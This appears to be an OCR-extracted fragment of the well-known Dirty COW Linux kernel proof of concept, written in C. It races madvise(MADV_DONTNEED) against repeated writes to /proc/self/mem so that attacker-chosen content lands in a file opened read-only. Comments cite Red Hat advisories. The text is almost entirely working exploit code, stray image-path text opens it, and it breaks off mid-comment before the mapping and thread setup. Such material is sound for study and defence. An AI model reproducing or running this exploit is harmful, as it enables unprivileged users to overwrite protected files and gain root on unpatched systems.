 int f;
struct stat st;
char *name;
 
void *madviseThread(void *arg)
{
  char *str;
  str=(char*)arg;
  int i,c=0;
  for(i=0;i<100000000;i++)
  {
/*
You have to race madvise(MADV_DONTNEED) :: https://access.redhat.com/security/vulnerabilities/2706661
> This is achieved by racing the madvise(MADV_DONTNEED) system call
> while having the page of the executable mmapped in memory.
*/
    c+=madvise(map,100,MADV_DONTNEED);
  }
  printf("madvise %d\n\n",c);
}
 
void *procselfmemThread(void *arg)
{
  char *str;
  str=(char*)arg;
/*
You have to write to /proc/self/mem :: https://bugzilla.redhat.com/show_bug.cgi?id=1384344#c16
>  The in the wild exploit we are aware of doesn't work on Red Hat
>  Enterprise Linux 5 and 6 out of the box because on one side of
>  the race it writes to /proc/self/mem, but /proc/self/mem is not
>  writable on Red Hat Enterprise Linux 5 and 6.
*/
  int f=open("/proc/self/mem",O_RDWR);
  int i,c=0;
  for(i=0;i<100000000;i++) {
/*
You have to reset the file pointer to the memory position.
*/
    lseek(f,map,SEEK_SET);
    c+=write(f,str,strlen(str));
  }
  printf("procselfmem %d\n\n", c);
}
 
int main(int argc,char *argv[])
{
/*
You have to pass two arguments. File and Contents.
*/
  if (argc<3)return 1;
  pthread_t pth1,pth2;
/*
You have to open the file in read only mode.
*/
  f=open(argv[1],O_RDONLY);
  fstat(f,&st);
  name=argv[1];
/*
You have to use MAP_PRIVATE for copy-on-write mapping.
> Create a private copy-on-write mapping.  Updates to the
> mapping are not visible to other processes mapping the same
> file, and are not carried through to the underlying file.  It
> is unspecified whether changes made to the file after the
> mmap() call are visible in the mapped region.